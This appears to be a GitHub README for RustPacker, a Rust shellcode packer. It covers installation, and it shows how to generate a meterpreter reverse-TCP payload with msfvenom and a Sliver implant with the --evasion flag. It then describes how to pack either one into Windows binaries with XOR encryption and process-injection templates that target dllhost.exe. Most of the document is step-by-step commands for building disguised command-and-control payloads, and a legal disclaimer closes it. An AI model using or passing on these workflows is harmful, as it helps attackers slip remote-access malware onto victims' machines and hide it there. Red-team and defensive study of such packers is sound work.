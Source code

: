 # RustPacker
Shellcode packer written in Rust.

## Current state
Functional as it packs a binary file, still in WIP.

## Are you a Rust developer?
If you have some experience with Rust, you're more than welcome to help !
You can help by:
- Reviewing the code for mistakes / improvements
- Opening issues
- Contacting me on Discord for a more in depth review (nariod#4621)

# Quick start

## Podman/Docker setup
Consider using Podman instead of Docker for [security reasons](https://cloudnweb.dev/2019/10/heres-why-podman-is-more-secured-than-docker-devsecops/).
From any internet-connected OS with either Podman or Docker installed:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `podman build -t rustpacker -f Dockerfile`. This operation may take a while.
- Paste your shellcode file in the `shared` folder
- `podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker -f shared/calc.raw -i ntcrt -e xor`

For regular use, you can set an alias:
- On Linux host: `alias rustpacker='podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker'`
- Then: `rustpacker -f shared/calc.raw -i ntcrt -e xor`

## Manual install on Kali
Install dependencies:
- `sudo apt update && sudo apt upgrade -y`
- `sudo apt install -y libssl-dev librust-openssl-dev musl-tools mingw-w64 cmake libxml2-dev`

Install Rust:
- `curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh `
- `source $HOME/.cargo/env`
- `rustup target add x86_64-pc-windows-gnu`

Run RustPacker:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `cargo run -- -f shellcode.bin -i ntcrt -e xor`

# Full documentation

## Create shellcode
RustPacker is compatible with any "raw" shellcode.

### Metasploit / MSFvenom
You can generate raw MSF shellcode using msfvenom's raw format. Ex:
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=80 -f raw -o msf.bin`

### Sliver
You can generate raw [Sliver](https://github.com/BishopFox/sliver) shellcode using Sliver's "--format shellcode". Ex:
- `generate --mtls 127.0.0.1:443 --format shellcode --windows --evasion`
- You can now use Shikata Ga Nai (SGN) Sliver encoder if prompted. RustPacker templates now use RWX memory regions, which are required for SGN to work.

## Install Rustpacker

### Podman/Docker setup
Consider using Podman instead of Docker for [security reasons](https://cloudnweb.dev/2019/10/heres-why-podman-is-more-secured-than-docker-devsecops/).
From any internet-connected OS with either Podman or Docker installed:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `podman build -t rustpacker -f Dockerfile`
- Paste your shellcode file in the `shared` folder
- `podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker -f shared/calc.raw -i ntcrt -e xor`
- Retrieve the output binary along with the Rust source files in the `output_RANDOM_NAME` folder in `shared`

For regular use, you can set an alias:
- On Linux host: `alias rustpacker='podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker'`
- Then: `rustpacker -f shared/calc.raw -i ntcrt -e xor`
- The output binary alRetrieve the output binary along with the Rust source files in the `output_RANDOM_NAME` folder in `shared`

### Manual install on Kali
Install dependencies:
- `sudo apt update && sudo apt upgrade -y`
- `sudo apt install -y libssl-dev librust-openssl-dev musl-tools mingw-w64 cmake libxml2-dev`

Install Rust:
- `curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh `
- `source $HOME/.cargo/env`
- `rustup target add x86_64-pc-windows-gnu`

Run RustPacker:
- `git clone https://github.com/Nariod/RustPacker.git`
- `cd RustPacker/`
- `cargo run -- -f shellcode.bin -i ntcrt -e xor`

## Use Rustpacker
For now, you can choose from the following templates:
- `ct`, which executes your shellcode by spawning a process using the following API calls: `VirtualAlloc, VirtualProtect, CreateThread, WaitForSingleObject`. 
- `crt`, which injects your shellcode in the `dllhost.exe` process using the following API calls: `OpenProcess, VirtualAllocEx, WriteProcessMemory, VirtualProtectEx, CreateRemoteThread`.
- `ntCRT`, which injects your shellcode in the `dllhost.exe` process using the following low-level API calls: `NtOpenProcess, NtAllocateVirtualMemory, NtWriteVirtualMemory, NtProtectVirtualMemory,NtCreateThreadEx`.
- `sysCRT`, AVAILABLE SOON. Will rely on direct syscalls using the [mordor-rs](https://github.com/memN0ps/mordor-rs) project.

### Usage example
If you want to pack your Sliver shellcode using the `ntCRT` template with XOR encryption:
- Generate your raw shellcode from Sliver
- Copy / paste your shellcode file in the `shared` folder of the Rustpacker project
- Using Podman/Docker without alias: `podman run --rm -v $(pwd)/shared:/usr/src/RustPacker/shared:z rustpacker RustPacker -f shared/AMAZING_SLIVER.bin -i ntcrt -e xor`
- Using Podman/Docker with an alias: `rustpacker -f shared/AMAZING_SLIVER.bin -i ntcrt -e xor`
- Retrieve the output binary along with the Rust source files in the `output_RANDOM_NAME` folder generated in `shared`


## Todo
- [X] Port createThread Rust template
- [X] Port createRemoteThread Rust template
- [X] Debug binary file to Vec<u8>
- [X] Debug compiler
- [X] Packer POC
- [X] Migrate to "std::include_bytes"
- [X] Add xor
- [ ] Add AES
- [X] Add Sliver SGN support
- [ ] Refactor code
- [X] Write ntCRT template with Nt APIs
- [X] Build dockerfile
- [X] Strip output binaries
- [ ] Reduce cargo verbosity
- [ ] Generate random name for generated binary
- [ ] Add binary signing support
- [ ] Support the awesome evasions from https://github.com/memN0ps/mordor-rs
- [ ] Write detailed doc

## Credits
- [memN0ps](https://github.com/memN0ps)
- Rust discord
- StackOverflow
- https://github.com/postrequest/link

## Legal disclaimer
Usage of anything presented in this repo to attack targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
